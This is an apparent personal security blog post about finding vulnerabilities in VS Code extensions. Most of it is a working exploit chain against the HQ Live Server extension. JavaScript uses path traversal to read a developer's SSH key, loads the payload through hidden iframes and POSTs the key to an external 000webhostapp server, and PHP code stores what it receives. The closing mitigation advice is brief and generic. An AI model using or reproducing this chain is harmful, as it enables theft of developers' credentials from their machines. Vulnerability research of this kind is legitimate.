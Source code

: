 ```yaml
---
layout: post
title:  "My Journey in Uncovering Vulnerabilities in VS Code Extensions: Protecting Your Supply Chain from Cyber Threats"
date:   2023-02-28 13:25:13 -0400
cover: post-image6.png
categories: vscode extension security
description: In this blog post, I’ll share my journey in identifying, analyzing, and testing VS Code extensions from a security breach perspective, and the creative recommendations I came up with to mitigate potential risks.
---
```


# Introduction

As a passionate developer, I've always been a fan of Visual Studio Code (VS Code). This popular text editor boasts over 14 million active users worldwide and offers a wide range of third-party extensions to enhance its functionality. However, I couldn't help but wonder about the potential security risks these extensions might pose if they're not thoroughly tested and validated. In this blog post, I'll share my journey in identifying, analyzing, and testing VS Code extensions from a security breach perspective, and the creative recommendations I came up with to mitigate potential risks.

# Why VS Code Caught My Eye as a Prime Target for Cyber Attacks

The immense user base of VS Code makes it an attractive target for malicious actors. Ensuring the security of third-party extensions is challenging, as developer machines often contain sensitive credentials and access to critical parts of the codebase. Moreover, these extensions run with user privileges and without sandboxing, making it easier for malicious actors to install harmful programs. As security experts warn about potential threats, it becomes crucial to scrutinize the legitimacy and security of VS Code extensions.

# My Ingenious Five-Phase Approach to Identifying and Mitigating Vulnerabilities

To assess the security of VS Code extensions, I devised a creative five-phase approach:

- Extension Selection: I handpicked extensions based on official statistics and community feedback.
- Vulnerability Identification: I thoroughly analyzed the selected extensions for potential security vulnerabilities.
- Vulnerability Exploitation: I attempted to exploit identified vulnerabilities, determining their impact and validating mitigation strategies.
- Grouping Vulnerabilities & Automating Detection: I classified extensions according to their underlying technology or coding practices, and developed an automated detection process.
- Reporting and Recommendations: I prepared a comprehensive report summarizing my findings and recommendations.

# My Findings: Vulnerabilities and the Art of Exploitation

During my research, I came across a few articles that highlighted various vulnerabilities in extensions, ranging from path traversal to code execution [1][2]. Intrigued, I decided to focus on identifying similar vulnerabilities and devising ways to exploit them. I discovered that a common issue among these extensions is unsanitized inputs.

I found a vulnerability in the HQ Live Server extension, which allowed me to access sensitive files outside the server's root folder. To exploit this vulnerability and access the developer's SSH key, I designed a payload that would bypass challenges like cross-site scripting (XSS) protection and the same-origin policy. I created a multi-step process that involved downloading and executing the payload on the victim's system.

Here's the code snippet for creating and downloading my payload:

<pre> <code>const payload = `&lt;body&gt; &lt;script&gt; 
    for (let n = 0; n < ${maxNesting}; n++) {
    fetch('http://localhost:8080/'+'..%2f'.repeat(n)+'.ssh/id_rsa.pub')
    .then((res) => {if (res.status === 200) {
        res.text().then((data) => window.parent.postMessage(data, '*'));
    }
}); }&lt;/scr`+"ipt&gt;&lt;/bo"+"dy&gt;";

const fileName = `file_${Math.random()}.html`;
const a = document.createElement('a');
a.setAttribute('href', 'data:text/plain;charset=utf-8,' + encodeURIComponent(payload));
a.setAttribute('download', fileName);
a.style.display = 'none';
document.body.appendChild(a);
a.click();
document.body.removeChild(a);
</code>
</pre>

Next, I loaded the downloaded payload in an iframe:

<pre>
setTimeout(() => {
        for (let n = 0; n < maxNesting; n++) {
              const iframe = document.createElement('iframe');
              iframe.setAttribute('src', http://localhost:8080/${'..%2f'.repeat(n)}Downloads/${fileName});
iframe.setAttribute('style', 'width: 0px; height: 0px;')
document.body.appendChild(iframe);
}
}, 2000);
</pre>


Finally, I sent the obtained key to a malicious server:

<pre>
window.addEventListener('message', (event) => {
          const formData = new FormData();
          formData.append('data', event.data);
          fetch('https://welcometomywebpage.000webhostapp.com/data.php', {
            "method": "POST",
            "body": formData   
          });
      }, false);

</pre>

I also crafted server-side PHP code to receive the key and save it:
<pre>
&lt;?php
// Check if form is submitted with POST method
if ($_SERVER["REQUEST_METHOD"] == "POST") {

  // Get the data from the form
  $key = $_POST["data"];

  // Create a new file with a unique name
  $filename =  "details.txt";
  if (file_exists($filename)) {
		$handle = fopen($filename, 'a'); // open file in append mode
	} else {
		$handle = fopen($filename, 'w'); // create new file
	}

  // Open the file for writing
  $handle = fopen($filename, "a");

  // Write the data to the file
  fwrite($handle, "Key: \n$key\n");

  // Close the file
  fclose($handle);

  // Output a success message
  echo "Data saved to file!";
}
?&gt;
</pre>

To exploit the vulnerability, an attacker would follow these steps:

    Open VS Code and activate the vulnerable extension.
    Click on a malicious link provided by the attacker (e.g., https://welcometomywebpage.000webhostapp.com/).

# Paving the Way for a More Secure Future

My research emphasizes the importance of vigilantly testing and validating VS Code extensions to identify potential security vulnerabilities. As cyber threats evolve, it's crucial to adopt proactive measures to safeguard your supply chain.

I recommend automating the vulnerability testing process using available tools and custom test cases. This approach enables developers to swiftly identify and address security vulnerabilities before they pose a threat.

In conclusion, the security of third-party extensions must not be overlooked, as they can introduce significant risks to users and their systems. By identifying vulnerabilities and implementing robust mitigation strategies, developers can create a safer and more secure development environment.

## References:

[1] Trail of Bits. (2023). Escaping the VSCode extension sandbox. Retrieved from https://blog.trailofbits.com/2023/02/21/vscode-extension-escape-vulnerability/

[2] Snyk. (n.d.). Visual Studio Code extension security vulnerabilities deep dive. Retrieved from https://snyk.io/blog/visual-studio-code-extension-security-vulnerabilities-deep-dive/

